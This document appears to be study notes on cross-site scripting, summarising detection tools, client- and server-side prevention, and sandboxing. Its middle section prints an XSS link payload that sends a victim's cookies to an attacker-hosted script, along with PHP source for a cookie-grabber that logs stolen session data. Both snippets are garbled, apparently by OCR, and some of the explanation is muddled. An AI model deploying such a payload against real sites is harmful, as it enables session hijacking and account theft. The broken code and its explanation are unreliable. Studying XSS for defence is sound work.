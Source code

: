  
<h1>Cross-Site Scripting (XSS) attack </h1>
is a common vulnerability which is being exploited in web 
applicationsthrough the injection of HTML tags and malicious Java Script code.

The usual method of sanitizing Javascript code stil leavs vulnerabilites on the table,instead 
the researchers propose the use  of a Sandbox environment used in sites like blogger.com operated 
by Google.

Often the target of these attacks is to get cookies,
Cookies are the most general way to identify and authenticate
the users and it is being supported by almost all the web
browsers.

Recent survey has shown that almost 67% of websites are vulnerable to XSS attacks.

<h2><i>Detection of XSS Vulnerability:</i></h2>
we could do a static source code analysis or do dynamic testing by executing known attacks on 
the site.
L-WMxD (Lexical based Webmail XSS
Discoverer), which works on a lexical based mutation engine
which is an active defence system to discover XSS before the
Webmail application is online for service.
Pixy is a tool that performs data flow
analysis on PHP code to detect reflected XSS vulnerabilities.
Various prototype tools which are based on Pixy have been
implemented by the researchers and test on the real world
PHP programs.

<h2><i>Prevention of XSS Vulnerability</i></h2>
application-level firewall is suggested,
which is located on a security gateway between client and
server and which applies all the security relevant checks and
transformations. Some server side prevention approaches
require the collaboration of web browsers.

On the client side, researchers have developed the Noxes
 which acts as a personal firewal on the basis of filter rules,a user-specified URL white-list and blacklist
websites. During the HTTP request to an unknown website, Noxes immediately alerts the client, who
chooses to permit or deny the connection, and remembers the
client’s action for future use. Another client side approach which aims to identify the information
leakage using tainting of input data in the browser or 
mechanism for detecting malicious java script is proposed: the system consists of a browser-embedded script auditing
component, and IDS that processes the audit logs and compares them to signatures of known malicious behavior or attacks.

There are no logical server side solutions, as they face a deployment issue and degrade the web speed also.
<h2><i>ARCHITECTURE OF EXPLOITING
XSS VULNERABILITY</i></h2>

Web applications frequently use cookies for retaining an authentication state between users and web applications.
These cookies are usually sent to the users by the web applications after the users have been successfully
authenticated. Every consequent request that contains the legitimate cookies will be automatically approved by the web
applications without any further authentication.
Hence they are the target for vulnerabilities.
```
<a onclick

documentlocation=http localhost/xss-
attacker/getcookies php cookie="rescape(document cookie)
href="2">click here </a> to know about XSS attack
```
The following are the details of this malicious Java Script
code:

On Click Event: This event executes the Java Script
function, which is embedded inside it.
Document. Location: This function will store the
address or URL where the actual file has to be
transferred.
Get Cookies.PHP: It is a cookie grabber file which
will store on the attacker site and steal the cookies
of the victim’s domain.
Escape (document.cookie): Escape is a function call
which will pass the argument i.e. document. Cookie.
Document is an object and Cookie is a file in Java
Script which will capture the current cookies of any
particular session.

cookie stealer file which is loaded on the attacker site and transfers
the current cookies to a blank cookie.txt file which is also
loaded on the attacker site. Following is the vulnerable PHP
code of a cookie stealer file.
```
- <’php
. Scookie=";
. foreach(S_GET as Skey=>Svalue)

. Scookie =Skey.= $value;

- }

. Sdate=date("d'm/'Yhi:sA");

. Suser_agent=$_SERVER[HTTP_USER_AGENT];

. $file = fopen(cookies txt’, a’);

10. fwrite($file,"Sdate : Scookie \n");

11. fclose($file);

12. echo '<b>sorry this page is under construction</b><br>
</br>Please click <a href "http://www.google.com/">
here</a>to go back to previous menu’

?>
```
The attacker domain has stored the cookie grabber file and
blank cookie.txt file. So, when the victim click on the
malicious link posted by the attacker, the cookie grabber file
gets executed on the victim’s domain and victim’s cookie will
get transfer to the blank cookie.txt file in which user-id,
password and session-id of victim’s account is stored clearly.
<h2><i>Cross-Site Scripting Defense</i></h2>

Sandbox is a restricted environment which runs our programs
in an isolated space, which prevents them from making
permanent changes to other programs and data in the
computer. The following are some benefits of sandboxing
technique:-
 
Secure Web Browsing: Running our Web browser
under the protection of Sandbox means that all
malicious software downloaded by the browser is
trapped in the sandbox and can be discarded
trivially.
Enhanced Privacy: Browsing history, cookies, and
cached temporary files collected while Web
browsing stay in the sandbox and don't leak into
Windows.
Secure E-mail: Viruses and other malicious
software that might be hiding in your email can't
break out of the sandbox and can't infect your real
system.
Windows Stays Lean: It prevents wear-and-tear in
Windows by installing software into an isolated
sandbox.





